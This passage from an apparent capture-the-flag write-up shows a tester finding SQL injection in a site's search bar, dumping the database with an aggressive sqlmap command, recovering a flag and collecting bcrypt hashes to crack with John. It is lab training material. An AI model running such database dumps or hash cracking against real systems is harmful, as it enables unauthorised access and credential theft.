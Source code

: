 We got a directory named `~webmaster/`, let's check it out:


![](cybersecurity/images/Pasted%2520image%252020250501133745.png)

If we click `credentials`, it redirects us to a `404` status code site, if go down on the website, we can see this:


![](cybersecurity/images/Pasted%2520image%252020250501133940.png)


We got a search bar and a login page, let's use the search bar to test `XSS` and `SQLI`:

![](cybersecurity/images/Pasted%2520image%252020250501134143.png)

What about `SQLI`:


![](cybersecurity/images/Pasted%2520image%252020250501134223.png)

![](cybersecurity/images/Pasted%2520image%252020250501134235.png)

As we can see, there's an error in our SQL syntax, this is vulnerable to `SQLI`, let's submit the request to `sqlmap` and begin exploitation phase.


# EXPLOITATION
---


Let's save the request to a file and do the following `sqlmap` command:

```bash
sqlmap -r "$(pwd)/req.req" -p search --level=5 --risk=3 --threads=10 --dump
```

We will get some interesting tables:

![](cybersecurity/images/Pasted%2520image%252020250501135053.png)

![](cybersecurity/images/Pasted%2520image%252020250501135102.png)

Got our first flag:

```
flag{Sm4rt!_k33P_d1gGIng}
```


![](cybersecurity/images/Pasted%2520image%252020250501135150.png)

We got some hashes, let's get them to a file and use john:

```
cat << 'EOF' > hashes.txt
prometheus:$2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C
root:$2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK
zeus:$2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC
EOF
```
